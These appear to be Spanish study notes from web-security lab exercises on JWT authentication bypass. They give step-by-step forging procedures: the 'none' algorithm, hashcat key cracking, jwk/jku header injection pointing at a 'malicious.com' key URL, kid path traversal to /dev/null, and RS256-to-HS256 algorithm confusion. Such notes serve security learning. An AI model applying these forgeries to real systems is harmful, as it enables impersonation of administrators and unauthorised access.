 -- - 
#### **¿Qué son los JWT?**  
Los JWT están compuestos por **3 partes**, separadas por puntos:  
1. **Header** → Algoritmo & Tipo de Token  
2. **Payload** → Datos (información del usuario u otros claims)  
3. **Signature** → Verificación de la firma  

#### **Ejemplo de JWT:**  
```
1(eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9).2(eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ).3(SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c)
```

#### **Nota:**  
Los JWT están codificados en **Base64**, lo que permite **decodificarlos fácilmente** usando la web oficial `jwt.io` o directamente desde la terminal.

---

## **Posibles vulnerabilidades en el uso de JWT**

### **1. Bypass de autenticación JWT sin verificar la firma
- Tras iniciar sesión con un usuario normal, interceptamos el JWT y cambiamos el valor del campo sub a administrator, accediendo así al panel de administración sin autenticación real. 

### **2. Algoritmo "None" y Sin Firma**  
Algunas aplicaciones permiten el uso de `alg: "NONE"`, lo que permite **omitir la firma**.  

#### **Generación del Header:**
```bash
echo -n '{"alg":"none","typ":"JWT"}' | base64
# Resultado: eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0=
```

#### **Generación del Payload:**
```bash
echo -n '{"id":2,"iat":1724327756,"exp":1724331356}' | base64
# Resultado: eyJpZCI6MiwiaWF0IjoxNzI0MzI3NzU2LCJleHAiOjE3MjQzMzEzNTZ9
```

#### **Construcción del JWT:**
```
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MiwiaWF0IjoxNzI0MzI3NzU2LCJleHAiOjE3MjQzMzEzNTZ9.
```

### **3. Bypass de autenticación JWT con clave débil**  
- Es una mala práctica común en la implementación de autenticación basada en JWT: el uso de claves de firma extremadamente débiles. Iniciamos sesión con un usuario estándar, interceptamos el token y lo sometemos a un proceso de fuerza bruta utilizando herramientas como Hashcat para descubrir la clave secreta, que resulta ser una palabra sencilla incluida en diccionarios comunes.

```bash
hashcat -a 0 jwt secrets.txt 
```

- Una vez crackeado y descubierto el secreto generamos una clave simetrica en el jwt editor (siempre y cuando se utilizen algoritmo simetricos como el **`HS256`**).
![[Pasted image 20251008183257.png]]
- En la clave **`k`** ponemos el valor de la clave descubierto en encodeado en base64.
- Luego interceptamos la peticion, cambios el valor del payload, ponemos para no cambiar el header y le damos a **`sign`** para asi firmar el token con la clave descubierta.

### **4. Bypass de autenticación JWT por inyección en jwk**
- Es una vulnerabilidad en la verificación de JWTs relacionada con el uso del parámetro jwk en el encabezado del token. El servidor permite que el propio JWT contenga la clave pública con la que será validado, pero no comprueba si dicha clave proviene de una fuente confiable.

- Aprovechamos esta debilidad generando un par de claves RSA y firmando un token falso que suplantará al usuario administrador. Al incluir nuestra clave pública dentro del jwk del encabezado, el servidor valida la firma sin cuestionar su origen

1. Crear una **``RSA key``** (Al parecer no importa el tamaño). 
2. Apretar attack y usar la opcion de **``Embedded JWK``** y elegir la clave (la anteriormente creada).
3. Cambiar el valor que deseamos suplantar.
4. Firmar el nuevo token (Dont modify header).

### **5. Bypass de autenticación JWT por inyección en jku**
- Se explota una vulnerabilidad relacionada con el parámetro jku del encabezado de un JWT. Este parámetro permite al servidor obtener dinámicamente la clave pública desde una URL externa para verificar la firma del token. El fallo consiste en que el servidor no valida si esa URL pertenece a un dominio confiable.

1. Agregamos el valor **`jku`** en el header:
```json
{  
    "kid": "236b0959-9791-4472-8469-2a181a377727",  
    "alg": "RS256",  
    "jku": "https://malicious.com/exploit"  
}
```
2. Reemplazamos el **`kid`** por el generado con la nueva clave asimetrica.
3. Copiamos la clave publica y la exponemos en nuestro servidor.
```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "236b0959-9791-4472-8469-2a181a377727",
            "n": "q92UvAA4GBr2e2-5V9CH_z_sFy9eHExWupD06YZEHQe7X2KNZyuv1ocnupZUKBa-uB4ZZRVm2ONDJHgPuYSnChNh7wraE333MjbLzRXAyk1S3aSmPzXQmLEExIEpgL3XHSfyEo65cyCcEg1p5MhlfDJnY0Jts0Vqfwtg3i0jSzxtv5XxBldeLmxuEzHf0P_npXgjePLAgVJXRzl1nGc1L_LA8eK_lVEpcuxKemxfggjdgeCUe6mt8-uctq0ewlAhbymB-K_2vxSJTHAjlApc2Od9tbiULNyax5KhI-WR_MhqJEkWOKMGps1T1qPcRvSWU0rO4O_8oLkJeVKs70ApdQ"
        }
    ]
}
```

4. Modificamos tambien el payload con los valores que queremos tomar
```json
{  
    "iss": "portswigger",  
    "exp": 1760038576,  
    "sub": "administrator"  
}
```

5. Y por ultimo firmamos el **`JWT`** con la clave que hemos creado.

### **6. Bypass de autenticación JWT con traversal en kid**
- El servidor utiliza el valor del parámetro kid para leer desde el sistema de archivos la clave con la que validar la firma del token. Aprovechamos esto introduciendo una secuencia de path traversal en kid que apunta al archivo /dev/null, el cual tiene contenido predecible.

- Firmamos nuestro JWT con una clave basada en un byte nulo y modificamos el payload para suplantar al usuario administrador. El servidor usa /dev/null como clave de verificación sin realizar validaciones adecuadas, por lo que acepta el token

1. Generamos una firma la cual como clave le ponemos **`AA==`** lo cual es la representacion del byte nul **`\0`** en base 64.
![[Pasted image 20251009162108.png]]
2. Hacemos uso del path traversal para asi "invocar" el dev/null con el fin de que devuelva vacio y se asemeje a la firma de la clave que creamos.
![[Pasted image 20251009162046.png]]
3. Cambiamos los valores que queremos sustituir.
4. Firmamos.

### **7. Bypass de autenticación JWT por confusión de algoritmo (con clave expuesta)**

 - El servidor posee una implementación insegura de JWT que utiliza claves RSA para firmar y verificar tokens. Sin embargo, el servidor es vulnerable a un ataque de confusión de algoritmos: permite cambiar el algoritmo de firma a HS256, el cual utiliza una clave simétrica.

- Aprovechamos que el servidor expone su clave pública en el endpoint ‘/jwks.json‘, y la usamos como si fuera la clave secreta para firmar un nuevo token con HS256. Luego modificamos el payload para suplantar al usuario administrador y firmamos el JWT con la clave pública, que el servidor acepta erróneamente.

1. Descargamos la clave publica expuesta.
```json 
curl -s https://0a0800d2038367f383243eb700350098.web-security-academy.net/jwks.json | jq
{
  "keys": [
    {
      "kty": "RSA",
      "e": "AQAB",
      "use": "sig",
      "kid": "82a5a2fe-0604-4c1e-bf5e-f610974bbdde",
      "alg": "RS256",
      "n": "u573ya8XAMDH1Yk3y09LfLWgUawp7iWmuQo5pR5739FNqfdlDfwbe1N-ikAdTdgdeANzGBklRIFgxlPjQ1i74wIeQAiBndWSwJIMKRxjZpJt1YyiOwg5nVx0BBsDQLolmXHD851G-vBAq0yutxvqgGWVu-2pRZO8H3MIaClfufJefW8fEjnWNgEzebYWoiDfVtY4YRa0vveI4LTqWGuT6Kokp21K31uZT-OearuCxQAzdympvo2xz_n_3yJIrvYwZfGD0_aoxP-mskCgHB0GMv_x2KLa5mKR0gJAdsOgTjbVBNEYC7exYx2zlppECh6YSg913oUS-YThI8f2ffjgUQ"
    }
  ]
}
```

2. Creamos una clave RSA con la clave publica que encontramos.
![[Pasted image 20251013173402.png]]

3. Copiamos la clave como PEM.
![[Pasted image 20251013173528.png]]

4. La codificamos en base64
![[Pasted image 20251013173837.png]]

5. Creamos una nueva clave simetrica y ponemos como valor la clave PEM codificada en base 64 en el valor para **`k`**: 
![[Pasted image 20251013173825.png]]

6.Modificamos el tipo de algoritmo (de RS256 a HS256) junto con el valor que deseamos suplantar.
![[Pasted image 20251013173548.png]]

7. Firmamos con la clave simetrica privada que creamos.
### **8. Bypass de autenticación JWT por confusión de algoritmo (sin clave expuesta)**
- Se produce una confusión de algoritmos en JWT sin que el servidor exponga públicamente su clave. A pesar de ello, logramos deducir la clave pública RSA que utiliza para validar los tokens, a partir de dos JWT generados legítimamente tras iniciar sesión.

- Usamos la herramienta sig2n, que permite reconstruir valores matemáticamente posibles de la clave pública analizando las firmas. Tras identificar la clave válida, la usamos como si fuera una clave secreta con el algoritmo HS256, firmando un token falso 

1. Obtenemos 2 tokens distintos (pueden ser generados para el mismo usuario)
2. Ejectuamos el comando:
```bash 
docker run --rm -it portswigger/sig2n <token1> <token2>
```
3. Probamos si el JWT generado es valido. 
4. Si lo es generamos una nueva clave simetrica con el valor de clave generado.
![[Pasted image 20251014140552.png]]
![[Pasted image 20251013173825.png]]
5. 